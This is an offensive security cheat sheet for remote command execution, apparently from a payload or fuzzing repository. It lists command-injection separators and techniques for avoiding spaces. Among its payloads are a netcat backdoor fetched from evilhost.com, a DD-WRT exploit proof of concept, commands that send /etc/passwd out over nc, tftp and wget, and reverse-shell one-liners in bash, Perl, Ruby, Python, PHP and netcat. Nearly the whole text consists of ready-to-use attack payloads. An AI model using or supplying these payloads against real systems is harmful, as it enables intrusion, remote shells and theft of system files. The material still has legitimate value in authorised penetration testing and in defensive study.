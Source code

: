 Remote Command Exec Cheatsheet

File notes

**source-disc-cmd-exec-traversal.fuzz.txt**
usage<br>
```GET /path/*payload*relative/path/to/target/file/```

**Executing Commands**
Seperating Commands<br>
``` blah;blah2 ```

PIPES<br>
``` blah ^ blah 2```

AND <br>
```blah && blah2```

OR<br>
```FAIL || X```

OR <br>
``` blah%0Dblah2%0Dblah3 ```

Backtick<br>
``` `blah` ```

Background <br>
``` `blah & blah2` ```

***Shell commands without spaces***
<b>Using Internal Field Separator (IFS)</b>
Test for cmd injection withouot spaces:<br>
``` sleep${IFS:0:1}20 ```<br>

Example netcat backdoor without spaces:<br>
``` {wget,http://evilhost.com/nc} ```<br>
``` {chmod,+x,./nc} ```<br>
``` {./nc,-l,-p,6666,-e,/bin/bash} ```<br>

<b>Shell Variables</b><br>
``` CMD=$'cat\x20/etc/passwd';$CMD ```

shell variable, increment through file one line at a time: <br>
increment the first +1 to retreive the entire file, line by line<br>
``` SP=$'\x20';cat$SP/etc/passwd|tail$SP-n+1|head$SP-n+1 ```

<b>$IFS</b><br>
DD-WRT exploit POC circa 2009<br>
``` http:///cgi-bin/;nc$IFS-l$IFS-p$IFS5555$IFS-e$IFS/bin/sh ```<br>
or <br>
``` cat$IFS/etc/passwd ```<br>
increment the first +1 to retreive the entire file, line by line<br>
``` cat$IFSSP/etc/passwd|tail$IFS-n+1|head$IFS-n+1 ```

**Exfiltrating Files / Data**

FTP <br>
Make a new text file, and echo and then redirect to FTP

NC <br>
``` 'nc -e /bin/sh' ```

NC <br>
``` 'echo /etc/passwd  | nc host port' ```

TFTP <br>
``` 'echo put /etc/passwd | tftp host' ```

WGET: <br>
``` 'wget --post-file /etc/passwd' ```

**One-Liner Reverse Shells**
On the listener <br>
``` $ nc -l -p 8080 -vvv' ```

On the remote host...<br>
Bash:<br>
``` $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 ```

``` $ exec 5<>/dev/tcp/evil.com/8080 ```<br>
``` $ cat <&5 | while read line; do $line 2>&5 >&5; done ```

Perl<br>
```$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ```

Ruby<br>
``` $ ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' ```

Python<br>
``` $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ```

PHP<br>
``` $ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ```
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat<br>
``` $ nc -e /bin/sh 10.0.0.1 1234 ```

``` $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```


XTERM:<br>
Server: <br>
```$ xterm -display 10.0.0.1:1```
Listener:<br>
```$ Xnest :1```
```$ xhost +targetip```


<br>More docs: /docs/attack-docs/remote-cmd-exfiltration/<br>

